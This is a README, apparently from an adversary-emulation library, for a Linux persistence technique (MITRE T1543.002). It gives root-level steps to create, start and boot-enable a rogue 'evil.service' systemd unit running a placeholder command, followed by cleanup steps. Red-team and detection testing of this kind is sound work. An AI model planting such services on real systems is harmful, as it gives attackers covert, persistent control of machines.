 # Systemd Service

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP creates a rogue systemd service to run a command as the linux user.

## Arguments

- **user**: The user in whose context the systemd service runs.

## Prerequisites

1. The executor must have root access to the target machine.

## Examples
You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//persistence/linux/systemd-service/systemd-service.yaml
```

## Steps

1. **create-rogue-service**: This step creates a new systemd service file named "evil.service" in the "/etc/systemd/system/" directory. The service file contains the necessary configuration to run the specified command as the specified user (default: root).
2. **start-rogue-service**: This step starts the newly created "evil" service.
3. **enable-rogue-service-on-boot**: This step enables the "evil" service to start automatically on boot.

## Manual Reproduction Steps

```
### Escalate privileges to root
sudo su

### Create /etc/systemd/system/evil.service with the following contents:
[Unit]
Description=Evil service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=centos
ExecStart=echo 'this could be something bad'

[Install]
WantedBy=multi-user.target

### End Create File

# Start the service
systemctl start evil

# Automatically start the service on boot
systemctl enable evil

### Clean up: Stop and remove the rogue service

# Stop the service
systemctl stop evil

# Disable running the service on boot
systemctl disable evil

# Remove rogue service
rm /etc/systemd/system/evil.service
```

## MITRE ATT&CK Mapping

- **Tactics**:
    - TA0003 Persistence
- **Techniques**:
    - T1543 Create or Modify System Process
- **Subtechniques**:
    - T1543.002 Create or Modify System Process Systemd Service
